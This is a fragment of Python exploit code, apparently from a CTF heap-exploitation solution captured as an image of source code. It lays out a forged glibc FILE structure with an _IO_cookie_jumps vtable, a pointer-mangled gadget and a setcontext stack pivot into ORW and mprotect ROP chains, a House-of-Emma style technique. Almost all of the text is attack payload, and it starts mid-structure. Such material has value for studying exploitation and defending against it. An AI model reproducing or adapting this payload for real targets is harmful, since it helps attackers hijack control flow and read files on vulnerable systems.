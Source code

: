 ```py
        0x28: 1,	# _IO_write_ptr 
        0x38: 0,    # _IO_buf_base
        0x40: 0,    # _IO_buf_end
        0x68: 0,    # _chain
        0x88: fakeIO_addr+0x300,	# _lock
        0xc0: 0,	# mode
        0xd8: _IO_cookie_jumps+0x40,    # vtable
        0xe0: fakeIO_addr + 0x100,   # rdi
        # mov rdx, [rdi + 8]; mov [rsp], rax; call [rdx + 0x20]; 
        0xf0: ROL(gksh_gadget ^ (heap_base + 0x22a0), 0x11),  #
    },
    # ORW 
    0x100: {
        0x8:  fakeIO_addr + 0x100,  # rdx
        # <+61>:  mov rsp, [rdx+0xa0]
        # <+294>: mov rcx, [rdx+0xa8]
        # <+301>: push rcx
        # <+334>: ret
        0x20: setcontext,   # gksh_gadget ->
        0x40: orw_chain,    # mprotect ->        
        0xa0: [fakeIO_addr+0x200, ret],
    },
    0x200: {
        0x0: mprotect_chain,
    }
}, filler='\0')
```






